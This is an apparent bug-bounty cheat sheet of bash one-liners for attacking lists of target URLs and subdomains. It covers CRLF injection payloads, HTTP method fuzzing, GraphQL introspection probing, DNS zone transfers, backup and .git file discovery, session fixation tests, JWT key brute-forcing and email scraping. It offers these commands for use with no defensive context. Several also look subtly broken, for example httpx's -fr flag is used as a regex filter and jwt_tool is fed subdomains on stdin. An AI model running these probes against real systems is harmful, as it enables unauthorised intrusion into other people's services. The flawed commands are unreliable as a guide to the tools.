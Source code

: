 ### CRLF Injection (HTTP Response Splitting)
```bash
cat all_urls.txt | qsreplace '%0d%0aSet-Cookie:crlftest=crlfpoc' | httpx -silent -fr 'crlftest=crlfpoc' -o crlf_injection.txt
```

### Cloud Storage Misconfig (AWS S3 Bucket Public Access)
```bash
cat subdomains.txt | nuclei -t misconfiguration/ -o s3_buckets.txt
```

### HTTP Method Fuzzing (Check PUT/DELETE enabled)
```bash
cat subdomains.txt | httpx -silent -methods PUT,DELETE -mc 200 -o risky_methods.txt
```

### GraphQL Misconfig (Introspection Enabled)
```bash
cat subdomains.txt | httpx -silent -path '/graphql' -mc 200 -fr 'Introspection Query' -o graphql_introspection.txt
```

### DNS Zone Transfer (AXFR Check)
```bash
for domain in $(cat subdomains.txt); do dig axfr $domain @ns1.$domain; done
```

### CSP Bypass/Weak CSP Check
```bash
cat subdomains.txt | nuclei -t security-misconfiguration/csp-missing.yaml -o weak_csp.txt
```

### Backup Files (Git, SQL Dumps, Zip Archives)
```bash
cat subdomains.txt | httpx -silent -path-list <(echo -e '/backup.sql\n/.git/config\n/backup.zip') -mc 200 -o backup_leaks.txt
```

### Session Fixation (Check if sessionID can be set)
```bash
cat all_urls.txt | qsreplace 'sessionid=abc123' | httpx -silent -fr 'sessionid=abc123' -o session_fixation.txt
```

### JWT Secret Bruteforce (Weak Signing Keys)
```bash
cat subdomains.txt | jwt_tool -I -bruteforce wordlist.txt -o weak_jwt_keys.txt
```

### Exposed Email Addresses in Webpages
```bash
cat all_urls.txt | httpx -silent -fr '[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}' -o leaked_emails.txt
```
